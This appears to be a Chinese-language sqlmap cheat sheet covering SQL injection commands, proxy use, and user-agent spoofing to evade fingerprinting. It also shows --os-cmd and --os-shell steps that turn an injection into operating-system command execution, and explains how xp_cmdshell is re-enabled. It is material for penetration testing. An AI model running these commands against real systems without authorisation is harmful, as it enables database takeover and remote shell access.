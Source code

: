### 简介

|名称|描述|
|:-------------:|--|
|[sqlmap](https://github.com/sqlmapproject/sqlmap)| Automatic SQL injection and database takeover tool|

### 加快测试速度

指定数据库类型
```
--dbms Oracle
--dbms Mysql
--dbms "Microsoft Access"
```

### 设置proxy代理流量

格式为：`(http|https|socks4|socks5)://address:port`

如
```
--proxy=socks5://127.0.0.1:1080
```

### 设置user-agent避免指纹

随机user-agent
```
 --random-agent
```

安卓手机user-agent
```
--user-agent "Mozilla/5.0 (Linux; U; Android 2.2; en-us; Droid Build/FRG22D) AppleWebKit/533.1 (KHTML, like Gecko) Version/4.0 Mobile Safari/533.1"
```

### 用*标记注入点

针对情况：伪静态 等不识别的格式

```
sqlmap -u xxx.com/index.php/Index/view/id/40*.html --dbs
```

-r 也是在请求包文件中的参数值后面加*号

### OS命令执行


前提1：数据库为MySQL/PostgreSQL/Microsoft SQL Server
前提2：当前用户有权限使用特定的函数. 在sqlmap中查看权限用 `--privileg`

--os-shell=whoami
```
#--os-cmd=执行系统命令
sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql" --os-cmd=whoami 
```

--os-shell
```
sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql" --os-shell #交互式shell
```

实现原理：

在MySQL、PostgreSQL: sqlmap上传一个二进制库，包含用户自定义的函数sys_exec()和sys_eval() 创建的这两个函数可以执行系统命令。

在Microsoft SQL Server: sqlmap将会使用xp_cmdshell存储过程，如果被禁（在Microsoft SQL Server 2005及以上版本默认禁制），sqlmap会重新启用它，如果不存在，会自动创建。
